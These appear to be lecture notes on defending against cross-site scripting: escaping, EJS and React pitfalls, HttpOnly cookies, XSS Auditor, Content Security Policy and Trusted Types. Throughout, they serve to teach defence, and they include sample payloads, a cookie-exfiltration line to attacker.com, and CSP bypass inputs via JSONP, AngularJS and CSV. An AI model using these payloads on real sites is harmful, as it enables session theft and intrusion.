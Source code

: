 ### XSS Defenses

XSS is user data combining with code.With crafted input code it can run and produce a resulting page that can run the attackers code.We want to escape input and treat as user input not as code.

### Review: Cross-Site Scripting
- HTML template:
`<p>USER_DATA_HERE</p>`
- User input:
```HTML
<script>alert(document.cookie)</script>
```
- Resulting page (without escaping):
```HTML
<p><script>alert(document.cookie)</script></p>
```
- Resulting page (with escaping):
```HTML
<p>&lt;script>alert(document.cookie)&lt;/script></p
```
- In reflected XSS, the attack code is placed into the HTTP request itself
    - Attacker goal: find a URL that you can make target visit that includes your attack code
    - Limitation: Attack code must be added to the URL path or query parameters
- In stored XSS, the attack code is persisted into the database
    - Attacker goal:Use any means to get attack code into the database
    - Once there, server includes it in all pages sent to clients

### Injecting down vs. injecting up
- Injecting down: Create a new nested context
- Injecting up: End the current context to go to a higher context
```HTML
<p>USER_DATA_HERE</p>
<p><script>alert(document.cookie)</script></p>
```

### XSS defenses
- Remember: Code injection is caused when untrusted user dataunexpectedly becomes code
- A better name for Cross Site Scripting would be "HTML Injection"
- Goal: need to "escape" or "sanitize" user input before combining it with code (the HTML template)

### Where untrusted data comes from 
- HTTP request from user
    - Query parameters, form fields, headers, cookies, file uploads
- Data from a database
    - Who knows how the data got into the database? Do not trust.
- Third-party services
    - Who knows if it's safe?
    - Even if it is, what if the service gets hacked and starts sending unsafe data?

### When to escape?
- On the way into the database, or on the way out at render time?
    - Always: on the way out, at render time
- Why?
    - Even if you are sure that you control all possible ways for data to get into the database, you don't know in advance what context the data will appear in
    - Different contexts have different "control characters" (characters that need to be escaped)

### How to escape user input?
- Use your framework's built-in HTML escaping functionality
    - Linus's Law: "Given enough eyeballs, all bugs are shallow"
    - If/when bugs are found, you'll get the fix for free!
- Also, make sure you know the contexts where it is safe to use the output
    - e.g. don't use an HTML escaping function and put the output into a <script> tag or an HTML comment


### Escaping with EJS
- EJS template:
```EJS
<% if (user) { %>
    <h2><%=user.name %></h2>
<% } %>
```
- Server code:
`res.render('template-name', { user })`

### Case study: React
- The obvious path escapes the HTML:
```JS
const html = '<h1>Hi</h1>'
const jsx = <div>{html}</div>
```

- The expected solution doesn't work either:
```JS
const html = '<h1>Hi</h1>'
const jsx = <divinnerHTML={html} />
```
- This is the solution in React:
```HTML
const html = '<h1>Hi</h1>'
const jsx = <divdangerouslySetInnerHTML={{ __html:html }} />
```
- Key idea: Dangerous code should look dangerous!
- Goal: Everyone who looks at this code should be like "gross, can we refactor this to not need dangerouslySetInnerHTML?" and/or scrutinize the code very closely

•   Another amusing example from React:
`React.__SECRET_DOM_DO_NOT_USE_OR_YOU_WILL_BE_FIRED`

### EJS has many confusing tag prefixes
Even though EJS is easy to use it increases the chances of causing an error and eventually a XSS.

- <% 'Scriptlet' tag, for control-flow, no output
- <%_ ‘Whitespace Slurping’ Scriptlet tag, strips all whitespace before it
- <%= Outputs the value into the template (HTML escaped)
- <%- Outputs the unescaped value into the template
- <%# Comment tag, no execution, no output
- <%% Outputs a literal '<%'
- %> Plain ending tag
- -%> Trim-mode ('newline slurp') tag, trims following newline
- _%> ‘Whitespace Slurping’ ending tag, removes all whitespace after it

### Realization: XSS is going to happen
- XSS is one of the most common vulnerabilities
- What if we accept that XSS will happen to our site?
- How can we defend our site's users even in the presence of XSS?
    - Remember: With XSS, attacker code is running in the same page as the user's data (cookies, other private data)
    - This seems like a tall order!

### Key idea: Defense-in-depth
- Goal: Provide redundancy in case security controls fail, or a vulnerability is exploited
- Attacker now has to find multiple exploitable vulnerabilities in order to produce a successful attack
- What are some examples of defense-in-depth you've encountered?
    - Set a strong password + two-factor authentication
    - Plus: email notifications which act as an audit log

### Defending the user's cookies
- Use HttpOnly cookie attribute to prevent cookie from being read from JavaScript in the user's browser
` Set-Cookie: key=value; HttpOnly`
- HttpOnly defeats this attack code:
    `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
- Note: This restriction applies to JavaScript from the site author too!

### XSS Auditor
- Introduced in Chrome 4 in 2010
- Runs during the HTML parsing phase and attempts to find reflections from the request to the response body
    - Does not attempt to mitigate Stored XSS or DOM-based XSS
- Sounds pretty useful, right?
- Chrome realized it was a bad idea and removed in Chrome 78 in 2019

### XSS Auditor's many problems
- False negatives: Lots of ways to bypass it
- False positives: No way of knowing whether a given script block which appears in both the request and the response was truly reflected from the request to the response
- Take a page which contains `<script>alert('hi')</script>`
    - If user visits page normally, Auditor does not trigger
    - If user visits page with query string `?query=<script>alert('hi')</script>` then Auditor concludes this is an XSS attack!

### Demo: Sniping code out of a page
- Say target.com contains some inconvenient code:
```HTML
<script>if (window.top.location != window.location)
window.top.location = window.location</script>
```
- Then attacker.com can frame the page and make it look like a Reflected XSS:
```HTML
<iframe src='http://target.com:4000/?query=%3Cscript%3Eif%20
(window.top.location%20!=%20window.location)%20window.top.
location%20=%20window.location%3C/script%3E'></iframe>
```
The XSS Auditor will helpfully remove the matching script from the page!

### Sniping an external script
- Target page:
```HTML
<!doctype html>
<h1>Hi</h1>
<scriptsrc='/security.js'></script>
<script>
        // assumes that the libraries are included
</script>
- Security script can be sniped out with:
```HTML
<iframe src='http://target.com/?query=
%3Cscript%20src=%27/security.js%27%3E%3C/script%3E'></iframe>
```

### Content Security Policy (CSP)
- Previously, we talked about ways to tighten up Same Origin Policy in terms of which sites could e.g. post forms to our site, or load images, scripts, or styles from our site
    - That is, preventing other sites from making requests to our site
- CSP is inverse: prevent our site from making requests to other sites
- CSP is an added layer of security against XSS
    - Even if attacker code is running in user's browser in our site's context, we can limit the damage they can do

### The Content-Security-PolicyHTTP header
- Add the Content-Security-Policy header to an HTTP response to control the resources the page is allowed to load
- CSP blocks HTTP requests which would violate the policy

### Goal: Content comes from our site
`Content-Security-Policy:default-src'self'`
- Is <script src='/hello.js></script> allowed?
>Yes, relative URLs are loaded from the same origin
- Is <script src='https://other.com/script.js'></script> allowed?
>No, script comes from a different origin
- Is <script>alert('hello')</script> allowed?
>No, inline scripts are prevented. Strong protection against XSS!
Is <div onmouseover='foo()'></div> allowed?
- No, inline scripts are prevented. Strong protection against XSS!


### Goal: Content comes from our site, plus a trusted set of subdomains

```HTMLContent-Security-Policy:
    default-src'self'*.trusted.com
```
### Example: Web mail provider
- Goal: Allow resources from our site, including our subdomains, but block resources from anywhere else. Also, allow images to come from anywhere.

```
Content-Security-Policy:
    default-src'self'*.mailsite.com;
        img-src*
```
- Assuming session cookie is not HttpOnly, can it be exfiltrated?
    - Much harder! Can't use <script>ATTACK CODE</script> or load script from external site!
    - In theory, still possible though. How?

### Deploy CSP on an existing site
- Problem: How do we figure out what the policy should be? What if we miss something? Site breaks!
- Solution: Deploy it in report-only mode
```
Content-Security-Policy-Report-Only:policy
```
- Policy is not enforced, but violations are reported to a provided URL

### CSP fetch directives
- default-src - Serves as a fallback for other fetch directives
- connect-src - Restricts sources from "script interfaces": fetch, XHR, WebSocket, EventSource, Nagivator.sendBeacon(), <a ping>
- font-src Restricts sources for fonts
- frame-src - Restricts sources for nested browsing contexts: <frame>, <iframe>
- img-src - Restricts sources for images, favicons
- manifest-src - Restricts sources for app manifest files
- media-src - Restricts sources for media: <audio>, <video>, <track>
- object-src - Restricts legacy plugins: <object>, <embed>, and <applet>
- script-src - Restricts sources for <script> elements
- style-src - Restricts sources for <style> and <link rel='stylesheet'> elements
- worker-src - Restricts sources for Worker, SharedWorker, and ServiceWorker

### Other CSP directives
***Note: These directives not inherit from default-src. If left unspecified, they allow everything!***
- base-uri - Restricts URLs which can be used in <base>
- form-action - Restricts URLs which can be used as target of form submission
- frame-ancestors - Restricts parents which may embed this page using <frame>, <iframe>
- navigate-to - Restricts the URLs to which a document can initiate navigation by any means
- upgrade-insecure-requests - Instruct browser to treat all HTTP URLs as the HTTPS equivalent transparently

### script-src blocks inline scripts
- Most XSS attacks use inline scripts
- Use 'unsafe-inline' to allow inline scripts, but this is basically equivalent to having no CSP!
    - It allows any inline <script> tag to execute!
- Better solution would be to move the code to /script.js hosted on our own site (which is an allowed script source by script-src)

### When theory meets reality
```HTML
<script>
    window.GoogleAnalyticsObject = 'ga'
    function ga () { window.ga.q.push(arguments) }
    window.ga.q = window.ga.q || []
    window.ga.l = Date.now()
    window.ga('create', 'UA-XXXXXXX-XX', 'auto')
    window.ga('send', 'pageview')
</script>
<script async src='https://www.google-analytics.com/analytics.js'></script>
```
```
Content-Security-Policy:  
    default-src:'self';  
    img-src:'self'https://www.google-analytics.com;  
    script-src:'self'https://www.google-analytics.com'unsafe-inline'
```
- Finally works, but it's fragile! What if they start sending data to another domain?

Solution:
```
Content-Security-Policy:
    default-src:'self';  
    img-src:*;  
    script-src:'self'https://www.google-analytics.com'unsafe-inline'
```
- Still fragile, what if the script includes a script from another domain?

### Scripts on scripts on scripts...
- Script could do something like this (in fact it used to!):
```Javascript
const script = document.createElement('script')
script.src = 'https://ssl.google-analytics.com/script.js'
document.body.appendChild(script)
```
- How do we ensure CSP never breaks the site, even when new scripts are added?
    - Propagate trust from the initial script (which we trust) to any scripts it includes at runtime (which we want to implicitly trust) no matter where that script comes from

**Look at the CSP is dead lonf live CSP!** paper by the google folks.

### "CSP is Dead" findings
- "14 out of the 15 domains most commonly whitelisted for loading scripts contain unsafe endpoints; as a consequence, 75.81% of distinct policies use script whitelists that allow attackers to bypass CSP"
- "94.68% of policies that attempt to limit script execution are ineffective"
- "99.34% of hosts with CSP use policies that offer no benefit against XSS"

### JavaScript with user-controlled callbacks
- Attack input:
```HTML
<script src='/api/jsonp?callback=alert(document.cookie)//'></script>
```
- Server response:
`alert(document.cookie)//{"var": "data", ...});`

### Symbolic execution
- Typical AngularJS code:
```HTML
<script src='https://allowed.com/angular.js'></script>
<div ng-app>{{ 9000 + 1 }}</div>
```
- AngularJS parses templates and executes them
- Therefore, the ability to control templates parsed by Angular is equivalent to executing arbitrary JavaScript
- Replace {{ 9000 + 1 }} with {{ alert(document.cookie) }}

### Unexpected JavaScript-parseable responses
- Error messages echoing request parameters:
`Error: alert(document.cookie)// not found.`
- Attack input:
`<script src='/alert(document.cookie)%2F%2F'></script>`

### Unexpected JavaScript-parseable responses
- Comma-separated value (CSV) data with partiallyattacker-controlled contents:
```Name,Value
alert(document.cookie),234
```
- Attack input:
`<script src='/file.csv?q=alert(document.cookie)'></script>`

### Useless CSP
- "CSP is notoriously tricky to get right, but some people aren't even trying and are likely adding headers to tick a box on their assessment report."
- "Most of them are listed on this website because of their usage of 'unsafe-inline' and 'unsafe-eval' in the script-srcpart"

### Introducing strict-dynamic
- Server sends:
`Content-Security-Policy:script-src 'strict-dynamic' 'nonce-abc123'`
```HTML
<script src='https://trusted.com' nonce='abc123'></script>
<script nonce='abc123'>foo()</script>
```
- "Specifies that the trust explicitly given to a script present in the markup, by accompanying it with a nonce, shall be propagated to all the scripts loaded by that root script"
- No need to specify a whitelist anymore!

- Server sends:
`Content-Security-Policy:script-src 'strict-dynamic' 'nonce-abc123'`
```HTML
<scriptsrc='https://trusted.com' nonce='abc123'>
</script><scriptsrc='https://attacker.com/evil.js'>
</script><script>alert(document.cookie)</script>
```
- Attacker can't figure out the nonce. Why?
    - Nonce changes on each page load, and is unpredictable
    - Attacker can't inspect the DOM to read the nonce unless they're already running JavaScript

- "When strict-dynamic is included, any whitelist or source expressions such as 'self' or 'unsafe-inline' will be ignored"
- So, just keep the full list of allowed origins in there as a fallback in unsupported browsers.
- Or, just keep it simple
```
Content-Security-Policy:
script-src 'strict-dynamic' 'nonce-NONCE_GOES_HERE'
*'unsafe-inline';
```

### Reasonable "starter" CSP header
```HTML
Content-Security-Policy:
    default-src 'self' data:;
    img-src *;
    object-src 'none';
    script-src 'strict-dynamic' 'nonce-NONCE_GOES_HERE'
      *'unsafe-inline';
    style-src 'self' 'unsafe-inline';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self'
```

### Feature-Policy HTTP header
- Selectively disable browser features
    - autoplay
    - geolocation
    - picture-in-picture
    - vertical-scroll
-  Hopefully many more shipping soon
accelerometer, ambient-light-sensor, camera, document-domain,document-write, encrypted-media, focus-without-user-activation,font-display-late-swap, fullscreen, gyroscope, layout-animations,lazyload, loading-frame-default-eager, magnetometer, microphone,midi, payment, unoptimized-lossless-images,unoptimized-lossless-images-strict, usb, vr

### DOM-based XSS
- Assume DOM is modified by valid script running in the browser
- Attacker tricks this script into adding attacker DOM nodes into page
- Unlike reflected or stored XSS, the attacker doesn't change the HTML rendered by the server. Instead, page is attacked at "runtime"

```Javascript
const data = await fetch('/api/bio?user=shagun')
document.getElementById('bio').innerHTML = data
```
- Solution: Instead of innerHTML, use textContent

### Trusted Types
- CSP only protects against Reflected XSS and Stored XSS
- What about DOM-based XSS?
```Javascript
const data = await fetch('/api/bio?user=feross')
document.getElementById('bio').innerHTML = data
```
- There's a new web spec called "Trusted Types" that if deployed in browsers would completely eliminate most DOM-based XSS

`Content-Security-Policy: trusted-types template`

### Important Points
-  XSS vulnerabilities are pervasive in real-world sites – be vigilant!
-  Never trust data from the client – always sanitize it!
-  Be aware of the context you're including user data in – escape it appropriately!
-  Use CSP and (soon) Trusted Types to prevent nearly all XSS!
-  You can never be too paranoid

### Further Reading
http://research.sidstamm.com/papers/csp-www2010.pdf

https://storage.googleapis.com/pub-tools-public-publication-data/pdf/45542.pdf

https://developers.google.com/web/updates/2019/02/trusted-types

https://fastmail.blog/2015/12/20/sanitising-html-the-dom-clobbering-issue/

